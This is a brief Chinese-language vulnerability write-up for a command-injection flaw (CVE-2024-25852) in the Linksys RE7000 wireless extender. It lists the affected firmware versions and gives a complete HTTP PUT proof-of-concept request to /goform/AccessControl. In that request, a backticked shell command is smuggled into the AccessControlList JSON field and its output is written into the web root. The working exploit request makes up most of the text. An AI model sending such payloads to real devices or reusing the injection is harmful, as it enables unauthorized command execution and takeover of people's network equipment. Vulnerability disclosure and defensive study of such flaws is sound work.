 ## Linksys-RE7000无线扩展器命令执行漏洞(CVE-2024-25852)

RE7000无线扩展器在访问控制功能点的“AccessControlList”参数中存在命令执行漏洞。攻击者可以利用该漏洞获取设备管理员权限。

## 受影响的版本：
```
RE7000 v2.0.9、RE7000 v2.0.11、RE7000 v2.0.15
```

## poc
```
PUT /goform/AccessControl HTTP/1.1
Host: ip
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
If-Modified-Since: Thu, 17 Sep 2020 11:24:58 GMT
If-None-Match: "14600429"
Content-Length: 81

{"AccessPolicy":"0","AccessControlList":"`ps>/etc_ro/lighttpd/RE7000_www/1.txt`"}
```

![0ed3036d6115e4c5d0da3f117cbe9a0b](../../images/ed9ceedd-1757-48a5-a03b-3cd9111a684c.png)

![93d68e665d74288cb215ebedd9d07040](../../images/2b99e04d-ca6a-4a8f-8332-cce7cadf4399.png)
